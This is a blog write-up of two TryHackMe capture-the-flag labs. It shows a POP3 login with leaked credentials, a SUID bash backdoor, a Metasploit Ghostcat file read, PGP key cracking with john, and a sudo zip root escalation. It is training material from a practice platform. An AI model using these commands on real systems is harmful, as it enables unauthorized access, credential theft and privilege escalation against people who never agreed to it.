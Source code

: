 ```yaml
---
layout: post
title:  "THM: Fowsniff and tomghost"
date:   2021-07-14 19:00:00 +1000
category: hacking
---
```


## THM: Stuff
I've been doing a little bit of blue-teaming learning but I wanted to feel like I'd achieved something so I ran through [Fowsniff](https://tryhackme.com/room/ctf) and [tomghost](https://tryhackme.com/room/tomghost). I don't have much to say about Fowsniff, although I will record the telnet commands used to connect to the POP3 server:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/fowsniff]
└─# telnet fowsniff 110  
Trying 10.10.56.108...
Connected to fowsniff.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
# etc
{% endhighlight %}

For the root section, this had a shell script being executed as root during an SSH login. It suggested we send ourselves a root shell but instead I copied bash with the SUID bit and then ran it when I logged in, i.e in the script. 

{% highlight shell %}
cp /bin/bash /tmp/bash
chmod a+s /tmp/bash
{% endhighlight %}

Then:

{% highlight shell %}
baksteen@fowsniff:~$ /tmp/bash -p
bash-4.3# id;hostname;date
uid=1004(baksteen) gid=100(users) euid=0(root) egid=0(root) groups=0(root),100(users),1001(baksteen)
fowsniff
Wed Jul 14 07:13:45 EDT 2021
bash-4.3#
{% endhighlight %}

## tomghost
The name obviously refers to [ghostcat](https://www.chaitin.cn/en/ghostcat), which is a file read vulnerability in TomCat.

I use MSF, because why not?

{% highlight shell %}
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Ghostcat


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.106.165
rhosts => 10.10.106.165
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.106.165
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

[+] 10.10.106.165:8080 - /root/.msf4/loot/20210714072054_default_10.10.106.165_WEBINFweb.xml_635386.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/tomcat_ghostcat) > quit
{% endhighlight %}

We got some credentials. This could be for the Tomcat manager app, but let's try SSH first:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/tomghost]
└─# ssh skyfuck@10.10.106.165         
The authenticity of host '10.10.106.165 (10.10.106.165)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.165' (ECDSA) to the list of known hosts.
skyfuck@10.10.106.165's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
skyfuck@ubuntu:~$
{% endhighlight %}

Yep. We have some PGP files:

{% highlight shell %}
skyfuck@ubuntu:~$ ls -lash
total 40K
4.0K drwxr-xr-x 3 skyfuck skyfuck 4.0K Jul 14 04:21 .
4.0K drwxr-xr-x 4 root    root    4.0K Mar 10  2020 ..
4.0K -rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
4.0K -rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
4.0K -rw-r--r-- 1 skyfuck skyfuck 3.7K Mar 10  2020 .bashrc
4.0K drwx------ 2 skyfuck skyfuck 4.0K Jul 14 04:21 .cache
4.0K -rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
4.0K -rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
8.0K -rw-rw-r-- 1 skyfuck skyfuck 5.1K Mar 10  2020 tryhackme.asc
skyfuck@ubuntu:~$
{% endhighlight %}

We need to exfil the asc file and crack the password:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/tomghost]
└─# scp skyfuck@10.10.106.165:/home/skyfuck/tryhackme.asc tryhackme.asc
skyfuck@10.10.106.165s password: 
tryhackme.asc                                                                                                        100% 5144    15.7KB/s   00:00    
                                                                                           ┌──(root💀kali)-[/opt/thm/tomghost]
└─# gpg2john tryhackme.asc > tryhackme.john
File tryhackme.asc
                                                            
┌──(root💀kali)-[/opt/thm/tomghost]
└─# john tryhackme.john -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2021-07-14 07:25) 11.11g/s 11911p/s 11911c/s 11911C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

And then we can extract the encrypted file:

{% highlight shell %}
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
{% endhighlight %}

Next, we can *su merlin* and privesc with **zip** per [GTFOBins](https://gtfobins.github.io/gtfobins/zip/):

{% highlight shell %}
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo -u root /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Wed Jul 14 04:27:21 PDT 2021
#
{% endhighlight %}

Not difficult but still enjoyable.
